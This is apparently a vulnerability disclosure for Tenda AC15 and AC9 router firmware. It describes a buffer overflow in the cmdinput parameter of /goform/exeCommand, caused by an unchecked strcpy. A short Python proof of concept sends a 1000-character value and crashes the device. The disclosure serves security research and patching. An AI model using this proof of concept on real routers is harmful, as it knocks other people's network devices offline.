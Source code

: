 **Vendor of the products:** Tenda

**Affected Device:** Tenda AC15、AC9

**Version:** AC15 V1.0BR_V15.03.05.18

AC9 V1.0BR_V15.03.05.14

**Firmware Download:** https://www.tenda.com.cn/material/show/2710

https://www.tenda.com.cn/material/show/2650

**Vulnerability Description:** A buffer overflow vulnerability was discovered in Tenda AC15 V1.0BR_V15.03.05.18 and AC9 V1.0BR_V15.03.05.14, triggered by the cmdinput parameter in /goform/exeCommand. Attackers can exploit this vulnerability by crafting malicious packets  to cause the device to crash.



# POC:

```python
import requests
url="http://192.168.0.1/goform/exeCommand"
params ={
'cmdinput':'a'*1000
}
response = requests.get(url,params=params)
```

![image-20250904185702175](Tenda_AC15_Bof.assets/image-20250904185702175.png)

# Vulnerability Effect:

The vulnerability was successfully triggered, and the device crashed.

![image-20250904194639666](Tenda_AC15_Bof.assets/image-20250904194639666.png)

# Vulnerability Cause:

In the formexeCommand function, the program first retrieves the value of the "cmdinput" parameter, then directly copies the parameter value into the buffer "s" using the strcpy function without any length  restrictions, resulting in a buffer overflow vulnerability.

![image-20250904194355003](Tenda_AC15_Bof.assets/image-20250904194355003.png)

 